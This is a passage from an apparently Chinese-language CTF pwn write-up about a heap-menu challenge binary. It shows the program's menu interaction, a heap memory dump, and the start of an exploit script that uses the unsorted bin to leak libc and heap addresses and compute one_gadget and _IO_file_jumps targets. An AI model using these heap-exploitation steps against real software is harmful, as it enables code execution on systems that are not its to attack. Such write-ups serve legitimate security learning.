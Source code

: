    ```shell
   Size: 0x20a41
   ```

2. `edit()`能够对堆上数据进行修改

   ```shell
   1.Add
   2.Del
   3.Show
   4.Edit
   Choice: 1
   Done
   1.Add
   2.Del
   3.Show
   4.Edit
   Choice: 1
   Done
   1.Add
   2.Del
   3.Show
   4.Edit
   Choice: 4
   Idx:
   0
   Size:
   10
   Content:
   AAAA
   Done
   1.Add
   2.Del
   3.Show
   4.Edit
   Choice: 
   ```

   ```shell
   0x55555555b290  0x0000000000000000      0x0000000000000111      ................
   0x55555555b2a0  0x0000000a41414141      0x0000000000000000      AAAA............
   0x55555555b2b0  0x0000000000000000      0x0000000000000000      ................
   0x55555555b2c0  0x0000000000000000      0x0000000000000000      ................
   0x55555555b2d0  0x0000000000000000      0x0000000000000000      ................
   0x55555555b2e0  0x0000000000000000      0x0000000000000000      ................
   0x55555555b2f0  0x0000000000000000      0x0000000000000000      ................
   ```

利用思路:

1. 先用`unsorted_bin`泄露`libc`和`heap_base`

   ```python
   for i in range(9):
       add()           #0-7
   for i in range(9):
       free(i)         #0-7
   #leak_libc
   show(7)
   main_arena_addr = u64(io.recv(6).ljust(8,b'\x00'))-96
   libc_offset = main_arena_addr-lib.sym['main_arena']
   one_addr = 0xda864+libc_offset			#one_gadget
   IO_file_jumps = libc_offset + lib.sym['_IO_file_jumps']
   success(f'main_arena_addr=>{hex(main_arena_addr)}')
   success(f'one_addr=>{hex(one_addr)}')
   success(f'IO_file_jumps=>{hex(IO_file_jumps)}')
   #leak_heap_base
   show(0)
   ```